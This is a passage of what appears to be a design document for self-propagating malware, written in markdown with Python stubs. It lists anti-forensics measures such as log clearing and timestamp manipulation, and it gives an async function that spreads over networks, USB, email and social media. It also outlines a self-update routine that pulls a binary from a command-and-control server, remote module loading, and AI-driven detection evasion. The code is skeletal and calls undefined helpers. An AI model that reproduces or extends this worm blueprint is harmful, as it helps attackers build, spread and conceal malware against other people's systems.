 ```python
    return sum(checks) >= THRESHOLD
```

#### C. Anti-Forensics
- Timestamp manipulation
- Log clearing
- Artifact removal
- Memory wiping

### 7. Performance Optimizations

#### A. Asynchronous Operations
```python
async def optimized_propagation():
    """Concurrent propagation for speed"""
    tasks = [
        spread_network(),
        spread_usb(),
        spread_email(),
        spread_social_media()
    ]
    await asyncio.gather(*tasks)
```

#### B. Resource Management
- CPU throttling to avoid detection
- Memory-efficient data structures
- Bandwidth limiting
- Scheduled operations

### 8. Additional Advanced Features

#### A. Self-Update Mechanism
```python
async def self_update():
    """Check for and apply updates"""
    latest_version = await check_c2_version()
    if latest_version > CURRENT_VERSION:
        update_binary = await download_update()
        apply_update(update_binary)
```

#### B. Modular Architecture
- Plugin system for new features
- Hot-swappable components
- Remote module loading

#### C. AI/ML Integration
- Behavioral analysis evasion
- Target prioritization
- Adaptive spreading strategies

---